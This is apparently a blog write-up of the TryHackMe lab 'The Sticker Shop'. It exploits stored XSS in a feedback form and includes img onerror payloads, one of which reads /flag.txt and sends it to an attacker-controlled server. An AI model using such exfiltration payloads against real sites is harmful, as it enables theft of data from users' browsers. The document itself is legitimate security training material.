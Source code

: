 ```yaml
---
title: "TryHackMe - The Sticker Shop"
author: Nasrallah
description: ""
date:2024-12-05 12:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, web, easy, xss]
img_path: /assets/img/tryhackme/thestickershop
image:
    path: thestickershop.png
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---

[The Sticker Shop](https://tryhackme.comr/r/room/thestickershop) from [TryHackMe](https://tryhackme.com/signup?referrer=603949780215185dfb191142) is a simple web challenge where we exploit an XSS vulnerability to read the flag.

## **Enumeration**

### Web

This is a web challenge and the website can be found on port 8080.

![website](1.png)

It's a sticker shop, nothing looks interesting on the home page, let's check the feedback page.

![feedback](2.png)

Here we can submit a feedback.

The first thing that comes to mind is to check if links are being clicked, so I entered my ip address but didn't receive anything on my http server.

Next thing is XSS, Trying multiple payloads I managed to get a hit with the following payload:

```js
<img src="nonexistent.jpg" onerror="fetch('http://10.8.81.165');">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:25:28] "GET / HTTP/1.1" 200 -  
```

Now we need to read the file located in `/flag.txt`.

With the help of ChatGPT and some trial and error we ended up with the following payload that reads the file.

```javascript
<img src="nonexistent.jpg" onerror="fetch('/flag.txt').then(r=>r.text()).then(d=>fetch(`http://your-attack-server.com?fileContent=${encodeURIComponent(d)}`));">
```

```terminal
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.206.107 - - [03/Dec/2024 10:35:16] "GET /?fileContent=THM%7B8[REDACTED]ee6%7D HTTP/1.1" 200 -
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---
